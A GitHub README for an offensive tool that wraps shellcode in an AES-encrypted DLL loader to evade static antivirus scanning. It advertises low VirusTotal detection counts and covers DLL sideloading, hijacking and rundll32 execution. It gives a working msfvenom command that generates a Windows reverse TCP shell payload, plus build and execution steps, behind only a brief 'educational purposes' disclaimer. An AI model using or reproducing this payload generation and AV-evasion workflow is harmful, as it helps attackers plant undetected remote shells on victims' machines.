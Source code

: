 # ShellcodeEncrypt2DLL

A script to generate AV evaded(static) DLL shellcode loader with AES encryption.

Shellcode and API names encryption + Dynamic API loading

Two modes:
- non-standalone: To make an encrypted DLL **WITHOUT** KEY stored in the DLL.You can use it for sideload/rundll32 but you need to pass the key. (So even if the sample is captured, the shellcode will be still difficult to recover)
- standalone: To make an encrypted DLL **WITH** KEY stored in the DLL. You can use it for sideload/hijack or in a printnightmare-like scenario.



VT: 2/72 (13/3/2025)

VT: 3/72 (14/3/2025)

![ShellcodeEncrypt2Dll_vs_VT](https://raw.githubusercontent.com/restkhz/blogImages/main/img/屏幕截图_20250313_050702.png)

![](https://raw.githubusercontent.com/restkhz/blogImages/main/img/屏幕截图_20250313_060155.png)

## Usage

You can use this on **Kali** or other linux distributions

Dependencies:
```
pip install pycryptodome
sudo apt install mingw-w64
```
I know no one wants to memorize a bunch of arguments.
Edit your key in the `ShellcodeEncrypt2Dll.py`

Example:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 x64/xor_dynamic -f raw > shellcode.raw

python ShellcodeEncrypt2Dll.py --non-standalone shellcode.raw
or
python ShellcodeEncrypt2Dll.py --standalone shellcode.raw
```

Then you will get a `shell.dll`

For non-standalone:
```
rundll32 <path_to_dll>,EPoint <Your KEY>
```
You can make you own exe to load this DLL with KEY as well.

For standalone:
```
rundll32 <path_to_dll>,EPoint
```

As you see, standalone and non-standalone both have `EPoint` as export function.




Your can edit your key in the python script.

## How does it work?

This script will generate a header file for template.cpp, then try to compile with `x86_64-w64-mingw32-g++`.
The `shellcode` and `function names` like `VirtuallAlloc`, `CreateThread` etc will be encrypted(AES-CBC) with key.

The standalone mode will store the key in the DLL. Decrypt itself when running.
The non-standalone mode needs your key as a parameter to decrypt itself when running.

## Disclaimer

Submitted to VirusTotal already. Only for educational purposes.
